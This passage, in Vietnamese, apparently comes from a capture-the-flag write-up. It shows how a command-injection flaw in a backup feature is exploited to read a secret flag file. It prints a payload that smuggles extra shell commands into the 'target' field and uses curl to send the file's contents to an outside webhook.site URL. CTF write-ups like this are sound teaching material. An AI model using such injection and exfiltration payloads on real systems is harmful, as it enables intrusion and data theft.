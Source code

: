     Giải thích: ban đầu chạy lệnh `ls /` và lấy kết quả đó ghi vào file `/tmp/tungdvan.txt` thông qua toán tử `>`. Sau đó sử dụng lệnh curl để gửi cái file `/tmp/tungdvan.txt` vào server của webhook.

    ![alt text](IMG/4/image-8.png)

    Lúc này ta nhận được 1 gói tin là trong đó ta biết file có flag là `aefd123cdf_secret.txt`. Ta thực hiện viết lại lệnh rùi gửi lần nữa.

    ```bash
    command=backup&target=tungdeptrai.zip; cat /aefd123cdf_secret.txt > /tmp/tungdvan.txt; curl -d @/tmp/tungdvan.txt https://webhook.site/fb779aa2-4ae3-4567-9de7-e9e1911578b6 %23
    ```

    ![alt text](IMG/4/image-9.png)

    Lúc này ta lấy được flag.
